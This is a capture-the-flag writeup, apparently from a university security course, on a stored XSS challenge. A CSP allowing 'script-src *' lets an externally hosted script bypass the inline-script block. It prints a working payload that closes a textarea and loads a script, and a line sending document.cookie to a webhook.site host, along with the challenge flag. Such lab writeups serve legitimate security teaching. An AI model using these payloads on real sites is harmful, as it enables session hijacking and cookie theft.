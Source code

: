# Challenge `Read my lips: No more scripts!` Writeup

- Vulnerability: 
  - XSS attack
- Where:
  - Blogpost creation content
- Impact:
  - allows to steal remote user's cookie

## Analyzing the server

This challenges consists in grabbing the admins' cookies.
By trying the exploits found in previous challenges this error pops up: `Either the 'unsafe-inline' keyword, a hash, or a nonce is required to enable inline execution`. 
This means that a CSP policy is set to prevent any inline scripts but it also says that `Content Security Policy directive: "script-src *"` which indicates that its possible to load scripts from any source.

## Exploit

Since we are able to load scripts, we can create a JavaScript file and host it somewhere so that it can later be loaded 
to perform the attack.
However, it couldn't really be hosted anywhere.
The first try was to copy the last challenge payload to a pastebin link  (https://pastebin.com/)
but this resulted in a `Cross-Origin Read Blocking (CORB)` warning meaning that the script had to be hosted in the same origin as the server running the website.
Since this origin is probably Técnico  it's possible to host the file in the Técnico personal page (https://web.tecnico.ulisboa.pt).
To create the file just SSH to sigma and create a `exploit.js` file in the `/web` directory.
This file contains the same script as before `location='https://webhook.site/your-unique-id/'+document.cookie;`.
The payload is then:
`</textarea><script src=https://web.tecnico.ulisboa.pt/ist195562/exploit.js></script>` which reveals the flag `SSof{R3m0t3_Scripts_are_allowed_with_this_CSP}`.


## Implementation

No script needed.